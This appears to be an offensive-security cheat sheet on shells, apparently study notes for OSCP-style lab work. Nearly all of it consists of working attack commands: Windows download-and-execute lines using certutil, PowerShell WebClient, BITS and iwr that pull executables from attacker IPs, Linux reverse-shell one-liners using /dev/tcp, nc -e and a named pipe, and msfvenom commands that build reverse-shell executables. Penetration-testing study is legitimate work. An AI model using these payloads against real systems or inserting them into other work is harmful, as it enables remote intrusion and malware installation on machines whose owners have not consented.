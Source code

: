 ```yaml
---
layout: post
title: Shells
titledate: 10/31/23
tags: ["infosec","offsec","shell", "privesc", "certutil"]
---
```


### [payload_generator](https://www.revshells.com/)

### [reverse_shells](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md)

may just have to use an installed language ruby/python/perl to create network connection back to our machine

if we have cmd execution on win we can see if we are in a cmd or powershell process

    (dir 2>&1 *`|echo CMD);&<# rem #>echo PowerShell

#### Windows

retrieve shell to executable dir

- C:\Users<username>\AppData\Local\Microsoft\Windows\Temporary Internet Files\
- C:\Users<username>\AppData\Local\Microsoft\Windows\INetCache\IE<subdir>
- C:\Windows\ServiceProfiles\LocalService\AppData\Local\Temp\TfsStore\Tfs_DAV
- C:\Windows\Temp
- C:\Users\Public\Downloads

#### Download File

    (New-Object System.Net.WebClient).DownloadFile("http://10.10.10.10/PowerView.ps1", "C:\Windows\Temp\PowerView.ps1")

    wget "http://10.10.10.10/taskkill.exe" -OutFile "C:\ProgramData\unifivideo\taskkill.exe"

    Import-Module BitsTransfer; Start-BitsTransfer -Source $url -Destination $output

    PS> certutil.exe -urlcache -split -f http://192.168.45.215:8000/rs443.exe C:\Windows\Temp\rs443.exe & C:\Windows\Temp\rs443.exe

    iwr -uri 192.168.45.222:8000/rs443.exe -Outfile C:\Users\Public\rs443.exe

### NOTE: download from pyton http server if possible, may give error but file will download and be executable, from windows iis server may have issues


powershell

in - /offsec/OSCP/payloads/powershell

- encode.py - powershell base64 reverse shell hardcoded ip:port in python
- mkpsrevshell.py - powershell base64 reverse shell takes ip port as argument

#### Linux

one liner

    /bin/bash -l > /dev/tcp/10.0.0.1/4242 0<&1 2>&1

    nc -e /bin/bash 10.0.0.1 4242

    bash -i >& /dev/tcp/192.168.1.1/443 0>&1

    bash -c "bash -i >& /dev/tcp/192.168.1.1/443 0>&1"

    mknod /tmp/backpipe p
    /bin/sh 0</tmp/backpipe | nc 192.168.45.215 80 1>/tmp/backpipe

#### Generate Shells with msfvenom

    └─$ msfvenom -p windows/shell_reverse_tcp LHOST=192.168.10.210 LPORT=443 -f exe -o rs443.exe
    └─$ msfvenom -p windows/shell/reverse_tcp LHOST=192.168.10.210 LPORT=443 -f exe -o rs443.exe
